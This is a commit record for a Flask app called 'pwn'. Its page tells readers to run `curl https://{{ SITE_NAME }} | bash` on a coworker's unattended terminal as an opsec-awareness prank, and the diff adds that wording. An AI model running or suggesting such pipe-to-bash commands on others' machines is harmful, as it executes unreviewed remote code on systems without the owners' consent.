

Before and after one commit to devetry/pwn, a Flask app: page / in a window 1280 px wide. Shown: the top 543 px of the page, without its empty margins (283-996 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme.

Commit message:
try index.py for now.sh

```diff
--- a/api/templates/index.html
+++ b/api/templates/index.html
@@ -5,7 +5,7 @@
 <p>Encourage Operational Security at your organization by pwning your coworkers. Run</p>
 <code> curl https://{{ SITE_NAME }} | bash</code>
 
-<p>It will choose a reasonably harmless script to (gently) mess with them.</p>
+<p>at your coworker's unattended terminal. It will choose a reasonably harmless script to (gently) mess with them.</p>
 <section>
   <h2>Tips</h2>
   <ul class="tips">
```
Also changed, not shown: api/index.py (renamed from api/app.py), 1 other file.
